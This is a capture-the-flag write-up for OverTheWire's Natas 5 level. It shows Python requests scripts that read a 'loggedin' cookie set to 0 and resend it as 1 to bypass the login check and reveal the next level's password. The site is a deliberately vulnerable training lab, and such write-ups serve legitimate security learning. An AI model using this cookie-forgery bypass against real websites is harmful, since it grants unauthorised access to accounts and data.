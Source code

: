 # Writeup for [Natas 5 - Natas 6](http://natas5.natas.labs.overthewire.org) from [OverTheWire](https://overthewire.org)

We are prompted to a page that says that we aren't logged in.

![](./img/page.png)


The first thing I check for checking logins are `cookies`.

On the previous level, we used a tool called Burp Suite. But now we're going to do it with `Python` with the `requests` module.

```python
#!/usr/bin/env python3

import requests

url = 'http://natas5.natas.labs.overthewire.org/'

username = 'natas5'
password = '' # Password

r = requests.get( url, auth=(username, password) )

print(r.text)
```
And we see the exact same thing as the web page says, but in `HTML` form.

![](./img/page-req.png)

Now let's try viewing the cookie by adding `print(r.cookies)` to the end of the script.

Now we can see all of the `cookies` being used on this page.

![](./img/cookies.png)

It appears that there is a cookie called `loggedin` and it is set to 0, which is used by programmers to set something to `false`.

What we could do is try to set this cookie to `true` by setting it to 1. Our script should look like this.

```python
#!/usr/bin/env python3

import requests

url = 'http://natas5.natas.labs.overthewire.org/'

username = 'natas5'
password = '' # Password

cookies = {
	"loggedin" : "1"
}

r = requests.get( url, auth=(username,password),cookies=cookies )

print(r.text)
print(r.cookies)
```

Running this script, we can see that we successfully changed the `loggedin` cookie to be set to 1 and we got the password for the next level.

![](./img/password.png)